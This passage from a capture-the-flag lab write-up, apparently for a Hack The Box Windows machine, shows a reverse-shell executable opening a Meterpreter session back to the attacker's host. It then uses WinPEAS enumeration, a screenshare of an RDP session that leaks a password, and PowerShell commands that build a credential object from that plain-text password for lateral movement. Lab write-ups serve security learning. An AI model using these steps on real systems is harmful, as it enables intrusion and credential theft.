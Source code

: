 web powershel console:

```powershell
PS C:\Utils> .\rev.exe
```

and we got a hit back:

```bash
[*] Sending stage (200774 bytes) to 10.10.11.145
[*] Meterpreter session 1 opened (10.10.14.141:9001 -> 10.10.11.145:49857) at 2022-07-24 17:39:49 +0000

meterpreter >
```
type shell to switch.
> meterpreter > shell

### imonk on ATSSERVER
```powershell
PS C:\Utils> ipconfig
windows IP Configuration

Ethernet adapter Ethernet 2:
    Connection-specific DNS suffix  . :
    Link-local IPv6 Address . . . . . : fe80::9513:4361:23ec:64fd%14
    Subnet Mask . . . . . . . . . . . : 255.255.255.0
    Default Gateway . . . . . . . . . : 172.16.22.1
    . .
```
The gateway is likely the host.

After a bit of manual enumeration I didn't reach anything, it's time for [Winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
while running it I noticed a RDP session active.

well, meterpreter have a active **screenshare** options I'll give it a try.
you'll see a the desktop front for a while, after that a Powershell terminal opens as edavies following to create a credential object, and uses it to connect to the atsserver machine as the imonks user with the password leaked:
{{< img-border-radius src="https://github.com/0xWerz/CTF-writeups/raw/main/HTB/Machines/acute/img/pwd_leak_screen.png" radius="3%" >}}


I’ll create a credential object also:
```powershell
PS C:\Utils> $pass = ConvertTo-securestring "W3_4R3th3_f0rce." -AsPlainText -Force
PS C:\Utils> $cred = New-object System.Management.Automation.PScredential("ACUTE\imonks", $pass)
```
if i try to spawn a PSsesion it rejects it (access denied)

It’s possible that imonks is only allowed to connect with the `dc_manage` config that shows in the image . Specifying that gives a different error message (The term 'Measure-Object' is not recognized as the name of cmdlet)
I assume that it fails because the user imonks doesn't have access to the `Measure-Object` cmdlet. This could be an issue with the `dc_manage` conf
